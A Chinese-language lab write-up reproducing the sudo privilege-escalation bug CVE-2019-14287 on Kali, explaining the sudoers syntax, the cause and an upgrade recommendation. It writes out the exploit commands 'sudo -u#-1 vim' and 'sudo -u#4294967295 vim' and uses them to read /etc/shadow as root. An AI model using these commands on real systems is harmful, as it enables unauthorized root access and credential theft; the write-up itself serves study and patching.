







# （CVE-2019-14287）sudo提权漏洞

***\*实验环境：\****

kali

***\*影响范围：\****

sudo 1.8.28 之前的所有版本

***\*复现过程\****

查询下sudo的版本

sudo -V

创建用户

useradd testpasswd test

编辑下sudoers文件

这里添加了

test   ALL=(ALL, !root) /usr/bin/vim

这里表示 test 可以 任意主机上  任何用户  但这个用户不能属于root组  执行vim命令

 

这里介绍下字段含义:

授权用户/组 主机=[(切换到哪些用户或组)][是否需要输入密码验证] 命令1,命令2

***\*第一个字段表示：\****

授权用户/组     不以%开头的，代表“将要授权的用户”   以%开头的表示“将要授权的组”

***\*第二个字段表示：\****

允许登录的主机

***\*第三个字段表示：\****

可以切换到的用户或者组，省略表示切换到root。 如果不省略需要用括号表示  (用户:组)

***\*第四个字段表示：\****

若添加NOPASSWD表示不需要输入密码，如果省略则表示需要输入密码

***\*第五个字段表示：\****

可以运行的命令

我们用test用户登录下Kali，并尝试读取shadow文件

然后我们输入

sudo -u#-1 vim或者sudo -u#4294967295 vim

进入到vim

在命令模式下尝试读取/etc/shadow文件

 成功读取，同样也可以用vim执行其他的命令（以root身份）

 

***\*总结OR预防：\****

1.之所以会产生这个漏洞，是因为将用户 ID 转换为用户名的函数会将 -1（或无效等效的 4294967295）误认为是 0，而这正好是 root 用户 User ID

2.请将 sudo 升级到 1.8.28 最新版本，该漏洞会影响 1.8.28 之前的所有版本。